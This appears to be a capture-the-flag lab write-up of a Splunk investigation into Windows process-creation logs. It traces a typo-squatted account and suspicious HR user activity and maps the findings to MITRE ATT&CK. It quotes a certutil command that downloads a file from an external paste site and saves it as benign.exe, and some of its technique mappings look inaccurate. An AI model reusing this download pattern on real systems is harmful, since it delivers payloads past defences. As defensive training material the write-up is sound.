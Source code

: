 # **Splunk Investigation: HR Department Compromise (Event ID 4688)**

---

### **Summary**

An IDS flagged suspicious process execution within the HR department. Using Windows Event ID 4688 logs ingested into Splunk, we conducted an investigation to identify signs of malicious activity and potential compromise.

---

### **Key Findings**

* **Impersonation Account:** Detected a typo-squatted account, Amel1a, spoofing legitimate marketing user Amelia.  
* **Suspicious User Activity:** Chris.fort (HR) executed processes such as taskkill.exe and clip.exe, not typical for end-users.  
* **LOLBin Abuse:** Haroon used certutil.exe to download a file from controlc.com, indicating Living-off-the-Land Binary (LOLBin) abuse.  
* **MITRE ATT\&CK Mapping:** Attacker used credential impersonation (T1078.004), LOLBins (T1218.010), and C2 (T1105)

---

### **Investigation Steps**

#### **1\. Baselining Logs**

* **Query:**  
  index=win\_eventlogs | stats count  
  → Returned **13,959 logs** (March 2022 only).  
* **Scoped HR User Activity:**  
  index=win\_eventlogs Username IN ("chris.fort", "haroon", "diana")  
  → Focussed on users from the HR department.

#### **2\. Identifying the Imposter Account**

* **Query:**  
  index=\* | stats count by Username  
  → Identified Amel1a, a spoofed version of Amelia. Typo-squatting confirmed.

**Efficiency Note:** stats count is preferred over table | dedup for better performance in large datasets.

#### **3\. Triaging HR User Activity**

##### **Chris.fort:**

* **Query:**  
  Username="Chris.fort" | table ProcessName, CommandLine | dedup ProcessName  
* Ran suspicious binaries:  
  * taskkill.exe, clip.exe (scripting and automation tools)   
  * backgroundTaskHost.exe (also used by Diana, but Chris had no productivity apps)  
* Lacked normal user behavior (e.g., browser, Office apps).  
* *Attempted Detection of Scheduled Task Binaries:*  
  * ProcessName IN ("schtasks.exe", "svchost.exe", "taskeng.exe")  
* No strong indicators here, pivoted back to broader process review.

##### **Diana:**

* While both Chris and Diana executed backgroundTaskHost.exe, only Diana ran typical productivity apps like chrome.exe and notepad.exe.  
* No red flags.

##### **Haroon:**

* Executed:  
  certutil.exe \-urlcache \-split \-f https[:]//controlc[.]com/e4d11035 benign.exe  
  * Indicates malicious file download via **certutil.exe** (LOLBAS technique).  
  * While Certutil is a legitimate Windows tool, its use here \- along with haroon’s lack of other admin level activity \- strongly suggests its use is malicious.

#### **4\. Confirming Malicious Activity**

* File saved: benign.exe  
* Downloaded from: https[:]//controlc[.]com/e4d11035  
* Flag found inside file: THM{KJ&\*H^B0}

**IOC Summary:** The download from controlc.com and presence of encoded payloads are consistent with command-and-control behavior observed during post-exploitation phases. 

---

### **Lessons Learned**

#### **SOC Workflow**

* **Alerting Strategy:** Flag unusual process execution, especially known LOLBins like certutil.exe, particularly when run by non-admin users.  
* **Baseline Behavior:** Department-level activity baselining can reduce false positives.

#### **Tool Efficiency**

* stats count is more performant than table | dedup for retrieving unique values.  
* dedup remains useful in small-scope investigations, such as filtering usernames.

---

### **MITRE ATT\&CK Mappings**

  | Tactic               | Technique  | Description                                |
|:---------------------|:-----------|:-------------------------------------------|
| Execution            | T1059.003  | certutil.exe used to download a payload    |
| Persistence          | T1078.004  | Spoofed account Amel1a for access           |
| Defense Evasion      | T1218.010  | LOLBin abuse with certutil.exe              |
| Command and Control  | T1105       | Connection to external C2 (controlc[.]com)  |


---

This investigation highlights a multi-phase attack starting with credential abuse, followed by LOLBin execution and external communication. Each phase was observable via effective Splunk queries and contextual log analysis.
